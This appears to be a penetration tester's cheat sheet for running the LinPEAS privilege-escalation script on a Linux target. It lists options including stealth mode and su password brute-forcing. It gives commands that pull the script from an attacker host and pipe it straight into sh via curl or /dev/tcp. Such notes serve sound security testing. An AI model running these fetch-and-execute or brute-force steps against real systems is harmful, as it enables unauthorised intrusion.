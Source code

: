 # Linpeas

linpeas.sh

- -a (all checks) - This will execute also the check of processes during 1 min, will search more possible hashes inside files, and brute-force each user using su with the top2000 passwords.
- -s (superfast & stealth) - This will bypass some time consuming checks - Stealth mode (Nothing will be written to disk)
- -P (Password) - Pass a password that will be used with sudo -l and bruteforcing other users

## Local network

sudo python -m SimpleHTTPServer 8080
curl 10.10.10.10/linpeas.sh -output linpeas.sh
curl 10.10.10.10/linpeas.sh | sh

## Without curl

sudo nc -q 5 -lvnp 80 < linpeas.sh
cat < /dev/tcp/10.10.10.10/80 | sh

## Output to file

linpeas -a > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt #Read with colors